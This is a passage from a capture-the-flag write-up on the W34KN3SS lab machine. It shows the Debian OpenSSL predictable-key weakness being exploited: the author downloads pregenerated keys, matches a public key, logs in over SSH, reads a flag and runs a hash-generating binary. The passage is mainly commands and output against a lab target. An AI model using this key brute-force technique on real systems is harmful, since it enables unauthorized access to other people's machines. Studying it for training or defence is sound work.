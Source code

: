 ## Exploitation
### OpenSSL

This openssl version is vulnerable to **Predictable PRNG Brute Force SSH**, it's that the debian openssl issue leads that there are only 65.536 possible ssh 
keys generated, cause the only entropy is the pid of the process generating the key.


Reading the exploit proof of concept, This indicates that you have to download a compressed file with all the generated keys, so I download it and decompress it.

```console
root@kali:~$ wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2

root@kali:~$ tar xvf 5622.tar.bz2
```

Then I did a grep with the public key to find the private key.

```console
root@kali:~$ grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw rsa/
rsa/2048/4161de56829de2fe64b9055711f531c1-2537.pub
```

### Access via SSH

I log in to SSH with the key found and I captured the first flag.

```console
root@kali:~$ ssh n30@192.168.179.155 -i rsa/2048/4161de56829de2fe64b9055711f531c1-2537
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Tue Aug 14 13:29:20 2018 from 192.168.209.1
n30@W34KN3SS:~$ ls
code  user.txt
n30@W34KN3SS:~$ cat user.txt 
25e3cd678875b601425c9356c8039f68
```

In the n30's home directory there's a file called code, this is a compiled python file that generates a hash.

```console
n30@W34KN3SS:~$ file code 
code: python 2.7 byte-compiled
n30@W34KN3SS:~$ python code
[+]System Started at : Wed Oct 13 20:05:23 2021
[+]This binary should generate unique hash for the hardcoded login info
[+]Generating the hash ..
[+]Your new hash is : fa82870b0487f9a92a4cc089e989f4e97a61a8da9fe1ff856c75ada3039030c3
[+]Done
```
